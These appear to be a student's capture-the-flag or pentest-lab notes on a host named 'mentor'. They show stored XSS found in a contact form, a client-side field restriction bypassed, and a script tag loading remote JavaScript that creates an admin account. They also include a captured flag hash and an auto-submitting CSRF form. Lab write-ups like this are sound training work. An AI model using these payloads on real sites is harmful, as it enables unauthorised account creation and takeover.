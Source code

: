 `http://mentor:80/`
![[Pasted image 20241122155130.png]]



#### initial xss testing ``
##### `http://mentor:80/contact`
`<script>alert(0)</script>` payload
![[Pasted image 20241122155351.png]]
nothing happened
![[Pasted image 20241122155430.png]]
`burpsuite` analysis
- the `email`, `subject`, `message` fields dont get rendered, the `name` field does  get encoded or something, could be  a potential `xss`
- `XSRF` and `CSRF` are the same things - CROSS SITE REQUEST FORGERY
![[Pasted image 20241122155612.png]]
upon testing and discord it is talked about the `email` field being the one thats vulnerable to `XSS` however when attempting to utilize the field we are forced to utilize an `email` address
![[Pasted image 20241122165035.png]]
in order to fix this we have to modify the permissions
- in the `ELEMENTS` section when inspecting `CTRL F` to search for the email field - need to change the `type` to `text` just like the name example
![[Pasted image 20241122165122.png]]
now the `input` type matches the `name` field
![[Pasted image 20241122165302.png]]
now test the field with a script alert that to see if the file is allowed to be pulled over
test payload
```bash
<script src="http://192.168.45.155:8000/xss.js"></script>
```
![[Pasted image 20241122165344.png]]
setup a python server
![[Pasted image 20241122165434.png]]
we get a response, so now we can see that `XSS` is a vulnerability, now we need to create a java payload that creates an admin user with the function found @ the `/login` page source code

original
```js
function addUser() {

	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function () {
		if (this.readyState == 4 && this.status == 200) {
			// Typical action to be performed when the document is ready:
			alert(xhttp.responseText)
			window.location = window.location;
		}
	};
	var creds = 'email=' + document.getElementById('email').value + '&password=' + document.getElementById('password').value + "&name=" + document.getElementById('name').value + "&username=" + document.getElementById('username').value;
	xhttp.open("GET", "/admin/users/add?" + creds, true);
	xhttp.send();
```
usercreate.js
```js
function addUser() {
    var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function () {
        if (this.readyState == 4 && this.status == 200) {
            // Typical action to be performed when the document is ready:
            alert(xhttp.responseText);
            window.location = window.location;
        }
    };
    var creds = 'email=bugs@test.local&password=bugs&name=bugs&username=bugs';
    xhttp.open("GET", "/admin/users/add?" + creds, true);
    xhttp.send();
}

```
usercreate2.js - worked - took the formatting out of discord - need to review source code to understand
the reason why we can make the payload without the `onreadystatechange`
### **What Happens Without It?**

If you skip the `onreadystatechange` setup:

1. The `XMLHttpRequest` will still send the request to the server.
2. The server will still process the request and potentially create the user if all required parameters and authentication are correct.
3. You just won't receive or handle the response within your script.
```js
var xhttp = new XMLHttpRequest();
var creds = 'email=bugs@test.local&password=bugs&name=bugs&username=bugs';
xhttp.open("GET", "/admin/users/add?" + creds, true);
xhttp.send();
```
payload to execute
```bash
<script src="http://192.168.45.155:8000/usercreate2.js"></script>
```
was able to login at `http://mentor:80/login` with `bugs:bugs` credentials
`Local.txt` : 174e3cefc2154c2dcda53ca136b713fe
![[Pasted image 20241122172830.png]]



CSRF Payload:
```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="http://ofbiz:8443/admin/users/add?" method="GET" name="csrf">
  </form>
</body>
</html>
```
